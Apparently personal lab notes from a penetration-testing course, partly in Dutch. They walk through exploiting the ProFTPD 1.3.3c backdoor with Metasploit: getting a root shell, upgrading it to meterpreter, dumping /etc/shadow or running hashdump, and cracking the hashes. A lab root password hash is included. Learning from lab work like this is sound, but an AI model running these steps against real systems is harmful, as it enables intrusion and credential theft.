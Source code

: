 ![[Pasted image 20230706232136.png]]
5 and 6 are harder to crack 

-- demo -- 
-  searchsploit for ftp version 
- start msfconsole and search exploit module (search proftpd)
	- use backdoor module 
	- /bin/bash -i  (to obtain bash session)
	- id 
	- cnt + Z to put this session in the background 
		- sessions 
		**- sessions -u 1 (upgrade session 1 to meterpreter session)**
		- sessions 
		- session 2 
		- sysinfo 
		- getuid  (uid=0 -> root user )
		- cat /etc/shadow (dump hashes)
			- put this in the background
			  
Andere manier is met hashdump module 
- post/linux.gather/hashdump module 
- set session 2 (meterpreter session) 
- give you hashed passwords and save them in a txt for you 
  

--- --- ---- ---- ------- Lab ----- --- ---- ---- ---- --- ---- ---- 

- auxiliary/analyze/crack_linux
- Use /**usr/share/metasploit-framework/data/wordlists/unix_users.txt** for username dictionary


192.69.237.2/24


exploits/linux/remote/16921.rb 
ProFTPd-1.3.3c 

root:$6sgewtGbwihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7::: 

\$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb 


